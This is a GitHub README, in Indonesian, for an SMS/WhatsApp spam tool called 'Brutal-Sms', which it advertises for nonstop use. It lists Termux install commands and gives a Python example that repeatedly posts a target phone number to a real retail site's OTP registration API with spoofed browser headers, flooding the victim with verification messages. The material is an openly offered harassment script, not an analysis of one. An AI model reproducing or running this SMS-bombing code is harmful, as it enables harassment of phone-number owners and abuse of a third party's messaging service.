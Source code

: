 # Brutal-Sms



Spam Brutal WhatsApp 24 jam non stop

<details open>

  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash

  pkg update && pkg upgrade

  pkg install nano

  pkg install git

  pkg install python

  git clone https://github.com/QueenMilaka/Brutal-Sms

  bash install.sh

  cd Brutal-Sms

  python sms.py

  ```

  </details>

<details open>

  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash

  Example:

  import os,sys,time,requests,json

  abc=input("Nomor Target:")

  while True:

        print (abc)

        # Tambah time.sleep(5) (Jika Ingin Delay)

  ```

  </details>

#### KELEBIHAN 📍

| Kelebihan | Check |

|--------|--------|

| **24 Jam non stop** |[✔️](https://github.com/AmmarrBN) |

| **Brutal Spam** |[✔️](https://github.com/AmmarrBN) |

| **Simple** |[✔️](https://github.com/AmmarrBN) |

| **No Encrypt** |[✔️](https://github.com/AmmarrBN) |

| **Subscribe** |[Here](https://youtube.com/channel/AuliaRahmanOfficial123) |

---------

<details open>

  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash

  import os,sys,time,requests,json

  nomor=input("Nomor Target:")

  while True:

        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text

        time.sleep(10) # Waktu Delay Bisa Atur Sendiri

  ```

  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Aulia Rahman%20Official&color=green)](https://youtube.com/channel/AuliaRahmanOfficial123)

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Aulia Rahman%20Official&color=green)](https://youtube.com/channel/AuliaRahmanOfficial123)

